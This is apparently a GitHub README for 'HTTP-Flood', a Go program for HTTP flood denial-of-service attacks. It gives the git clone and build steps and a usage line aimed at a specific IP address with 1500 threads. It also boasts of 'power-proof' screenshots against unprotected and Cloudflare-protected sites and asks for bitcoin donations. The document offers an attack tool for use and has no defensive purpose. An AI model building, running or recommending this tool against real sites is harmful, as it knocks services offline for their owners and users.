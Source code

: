 # HTTP-Flood 
Just simple HttpFlood

TODO:
Remove shity-code 
Fix the problems with proxy

## Install
```sh
git clone https://github.com/LSD00/HTTP-Flood
cd HTTP-Flood
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
## Donate 
btc: 3JzWqmqH6YwXVVoBWsTuSgJg3qQXNHcgPp
